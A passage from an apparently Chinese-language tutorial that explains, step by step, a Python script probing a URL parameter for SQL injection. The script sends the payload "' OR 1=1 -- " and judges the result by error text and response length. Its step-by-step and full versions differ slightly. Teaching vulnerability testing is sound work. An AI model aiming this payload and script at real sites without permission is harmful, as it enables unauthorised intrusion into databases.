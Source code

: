 
##### (3)发送请求

~~~python
params = {param: payload}
~~~

将恶意负载添加到请求参数中。例如，如果param是'id'，value是'1'，那么params将是：{'id': "1' OR 1=1 -- "}



##### (4)发送包含恶意负载GET请求到目标URL

~~~python
 try:
        response = requests.get(url, params=params)
    except requests.exceptions.RequestException as e:
        return False, f"网络请求失败，原因: {e}"
~~~

其中，except requests.exceptions.RequestException as e:  是为了捕获网络请求中可能出现的异常，例如连接错误、超时等。



##### (5)漏洞判断

~~~python
 if "error" in response.text:
        return True, "SQL 语法错误暴露"
    if len(response.content) > 2 * len(requests.get(url).content):
        return True, "异常数据泄露"
    return False, "未检测到漏洞"
~~~

其中

if "error" in response.text:检查响应内容中是否包含SQL语法错误的提示。 如果包含，说明服务器执行了恶意SQL语句，可能存在SQL注入漏洞。

if len(response.content) > 2 * len(requests.get(url).content): 检查响应内容的长度是否异常增加。如果响应内容长度是正常请求的两倍以上，可能是因为注入导致返回了额外的数据。



##### (6)使用示例

~~~python
target_url = "http://example.com/products"
is_vuln, reason = check_sql_injection(target_url, "id", "1")
print(f"漏洞状态: {is_vuln}, 原因: {reason}")
~~~



以下是完整的代码示例：

~~~python
import requests

def check_sql_injection(url, param, value):
    # 构造恶意负载
    payload = value + "' OR 1=1 -- "  # 注释符绕过[^1]
    
    # 发送请求
    params = {param: payload}
    response = requests.get(url, params=params)
    
    # 漏洞判断
    if "error in your SQL syntax" in response.text:
        return True, "SQL 语法错误暴露"
    if len(response.content) > 2 * len(requests.get(url).content):
        return True, "异常数据泄露"
    return False, "未检测到漏洞"

# 使用示例
~~~